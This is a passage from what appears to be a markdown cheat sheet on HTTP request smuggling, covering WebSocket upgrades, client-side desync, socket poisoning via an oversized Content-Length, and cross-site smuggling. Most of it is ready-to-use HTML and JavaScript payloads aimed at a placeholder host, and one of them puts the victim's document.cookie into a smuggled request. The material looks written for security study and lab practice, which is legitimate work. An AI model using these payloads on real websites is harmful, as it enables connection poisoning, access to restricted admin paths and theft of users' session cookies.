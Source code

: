         GET /chat HTTP/1.1
        Host: vulnerable-website.com
        Upgrade: websocket
        Connection: Upgrade
        Sec-WebSocket-Key: aaaaaaaaaaaaaaaaaaaaaa==
        Sec-WebSocket-Version: 13

        ```

- **Browser-powered request smuggling**
  
  - **Client-side desync attacks**
    
    - **Triggering with malformed headers**
      - Create an HTML page that sends a request with a body but no `Content-Length`
      - Example:
        ```html
        <form action="https://vulnerable-website.com/" method="POST" id="form">
        <input type="hidden" name="csrf" value="csrf-token">
        </form>
        <script>
        document.getElementById('form').submit();
        fetch('https://vulnerable-website.com/', {
          method: 'POST',
          body: 'GET /admin HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n',
          mode: 'no-cors',
          credentials: 'include'
        });
        </script>
        ```
    
    - **Socket poisoning via dangling Content-Length**
      - Send a request with an excessive `Content-Length` that the server processes partially
      - Remaining bytes are interpreted as the start of the next request
      - Example:
        ```javascript
        fetch('https://vulnerable-website.com/', {
          method: 'POST',
          body: 'x'.repeat(1024*1024) + '\r\n\r\nGET /admin HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n',
          mode: 'no-cors',
          credentials: 'include'
        });
        ```
  
  - **Cross-site request smuggling**
    
    - **Victim-initiated request smuggling**
      - Create a malicious site that causes a victim's browser to poison their own connection
      - Example:
        ```html
        <script>
        fetch('https://vulnerable-website.com/', {
          method: 'POST',
          body: '0\r\n\r\nGET /deliver-flag?cookie=' + document.cookie + ' HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n',
          mode: 'no-cors',
          credentials: 'include'
        }).then(() => {
          location = 'https://vulnerable-website.com/';
        });
        </script>
        ```
    